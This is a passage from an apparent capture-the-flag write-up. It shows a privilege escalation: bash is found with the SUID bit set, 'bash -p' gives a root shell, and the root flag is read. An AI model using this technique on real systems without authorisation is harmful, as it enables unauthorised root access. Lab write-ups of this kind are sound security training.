 ```shell
$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```

execute bash with `-p` flag to get root.

```sh
$ bash -p
bash-5.0# whoami
root
```

getting the root flag

```shell
bash-5.0# cat /root/root.txt
2b************************94
```

and we are done!

[H4] & [L0]
